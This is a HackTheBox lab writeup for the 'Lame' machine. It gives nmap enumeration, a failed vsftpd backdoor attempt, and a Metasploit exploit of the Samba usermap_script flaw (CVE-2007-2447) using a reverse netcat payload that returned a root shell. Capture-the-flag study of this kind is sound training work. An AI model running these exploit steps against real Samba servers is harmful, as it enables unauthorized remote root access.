 
# 💥 Lame - HackTheBox Writeup

> ⚠️ **Disclaimer**
>
> This report documents a security assessment performed on a publicly available vulnerable machine within the HackTheBox platform.
> All activities were conducted legally and within the authorized scope of HackTheBox Labs.
>
> This content is intended strictly for educational and ethical purposes only.

## 📌 Target Info
- **IP:** 10.10.10.3
- **Platform:** HackTheBox
- **Difficulty:** Easy
- **Method:** VPN-based access to HTB network

---

## 🧭 Enumeration

### 🔍 Nmap Scan

**Command:**
```bash
nmap -sC -sV -p- -oN lame_nmap.txt 10.10.10.3
```

**Key Findings:**
```
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian
3632/tcp open  distccd     distccd v1
```

- FTP (`vsftpd 2.3.4`) looked vulnerable — tested exploit but no shell was created
- Samba version (3.0.20) falls within range for known RCE

---

## 💣 Exploitation

### ✅ Attempted: VSFTPD 2.3.4 Backdoor
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```
- Exploit launched but **no session created**
- Likely version not backdoored or hardened

### ✅ Success: Samba Usermap Script RCE (CVE-2007-2447)
```bash
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set RPORT 445
set PAYLOAD cmd/unix/reverse_netcat
set LHOST <your-ip>
run
```

**Result:**
```bash
Command shell session opened
whoami → root
```

---

## 🔐 Credentials Used

- None — exploit achieved **unauthenticated RCE**

---

## 🧠 Lessons Learned

- Not all vulnerable versions are actually exploitable — test but verify outcome
- Know your CVEs! `CVE-2007-2447` is a great early-career weapon
- Getting root via `netbios` is a strong reminder that legacy services still pose risk

---

## 🧰 Tools Used

- `nmap`
- `Metasploit Framework`
- `reverse_netcat payload`

---

## ✅ Outcome

The target machine was fully compromised via:
- Enumeration of Samba service
- Successful execution of the `usermap_script` exploit
- Gained direct `root` shell without creds

---

**Author:** Esteban BREA HELL  
**GitHub:** [github.com/EstebanBreaHell](https://github.com/EstebanBreaHell)
